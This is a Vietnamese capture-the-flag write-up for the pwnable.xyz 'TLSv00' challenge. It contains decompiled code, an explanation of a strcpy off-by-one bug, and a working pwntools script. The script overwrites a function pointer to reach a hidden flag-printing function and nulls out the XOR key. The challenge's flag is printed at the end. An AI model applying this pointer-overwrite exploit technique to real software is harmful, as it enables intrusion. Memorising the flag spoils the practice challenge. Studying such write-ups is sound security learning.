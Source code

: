 # Pwnable.xyz TLSv00
## Analysis
```
void main(void)
{
  int choice;
  undefined4 size;
  
  setup();
  puts("Muahaha you thought I would never make a crypto chal?");
  generate_key(63);
  do {
    while( true ) {
      while( true ) {
        print_menu();
        printf("> ");
        choice = read_int32();
        if (choice != 2) break;
        load_flag();
      }
      if (choice < 3) break;
      if (choice == 3) {
        print_flag();
      }
      else if (choice != 4) goto invalid;
    }
    if (choice == 1) {
      printf("key len: ");
      size = read_int32();
      generate_key(size);
    }
    else {
invalid:
      puts("Invalid");
    }
  } while( true );
}
```
Chương trình cho ta 3 lựa chọn
+ 1: Generate key. Lưu ý lỗi offbyone tại hàm strcpy(key,buf)
```
void generate_key(uint size)
{
  int __fd;
  long in_FS_OFFSET;
  int i;
  char buf [72];
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  if (((int)size < 1) || (64 < size)) {
    puts("Invalid key size");
  }
  else {
    memset(buf,0,72);
    __fd = open("/dev/urandom",0);
    if (__fd == -1) {
      puts("Can\'t open /dev/urandom");
                    /* WARNING: Subroutine does not return */
      exit(1);
    }
    read(__fd,buf,(long)(int)size);
    for (i = 0; i < (int)size; i = i + 1) {
      while (buf[i] == '\0') {
        read(__fd,buf + i,1);
      }
    }
    strcpy(key,buf);
    close(__fd);
  }
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return;
}
```
+ 2: Load flag: đọc chuỗi từ /flag sau đó xor các ký tự của flag với các ký tự của key
```
void load_flag(void)
{
  int __fd;
  uint i;
  
  __fd = open("/flag",0);
  if (__fd == -1) {
    puts("Can\'t open flag");
                    /* WARNING: Subroutine does not return */
    exit(1);
  }
  read(__fd,flag,64);
  for (i = 0; i < 64; i = i + 1) {
    flag[(int)i] = flag[(int)i] ^ key[(int)i];
  }
  close(__fd);
  return;
}
```
+ 3: Print flag: thực ra là hàm đọc chuỗi đầu vào của user
```
void print_flag(void)
{
  int iVar1;
  
  puts("WARNING: NOT IMPLEMENTED.");
  if ((char)do_comment == '\0') {
    printf("Wanna take a survey instead? ");
    iVar1 = getchar();
    if (iVar1 == L'y') {
      do_comment = f_do_comment;
    }
    (*do_comment)();
  }
  return;
}

void f_do_comment(void)
{
  long in_FS_OFFSET;
  undefined local_38 [40];
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  printf("Enter comment: ");
  read(0,local_38,33);
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return;
}
``` 
Ngoài ra, có thêm hàm real_print_flag:
```
void real_print_flag(void)
{
  printf("%s",flag);
  return;
}
```
## Solution
Vài điểm cần lưu ý:
+ Địa chỉ hàm f_do_comment là 0x0b1f, của hàm real_print_flag là 0x0b00. Mà giá trị của do_comment lại ở ngay dưới vùng chứa giá trị của key  
-> Tận dụng lỗi off by one thay đổi giá trị của do_comment từ 0x0b1f thành 0x0b00 (do strcpy ghi `size` byte sau đó thêm 1 byte null vào cuối)
+ Lỗi off by one của strcpy cũng được dùng để set tất cả ký tự của key về null (trừ ký tự đầu tiên) -> vô hiệu chức năng mã hóa do a ^ 0 = a
```
#!/usr/bin/python3
from pwn import *

context.binary = elf = ELF("./challenge", checksec = False)

#con = process()
#gdb.attach(con, gdbscript = "start")
con = remote("svc.pwnable.xyz", 30006)

def option1(size):
    con.sendlineafter(b"> ", b"1")
    con.sendlineafter(b"key len: ", size)

def option2():
    con.sendlineafter(b"> ", b"2")

def option3(msg):
    con.sendlineafter(b"> ", b"3")
    con.sendlineafter(b"instead? ", msg)

if __name__ == '__main__':
    option3(b"y")
    for i in range(64, 0, -1):
        option1(str(i).encode())
    option2()
    option3(b"n")

    con.interactive()
```
## Flag
```
FLAG{this_was_called_OTP_I_think}
```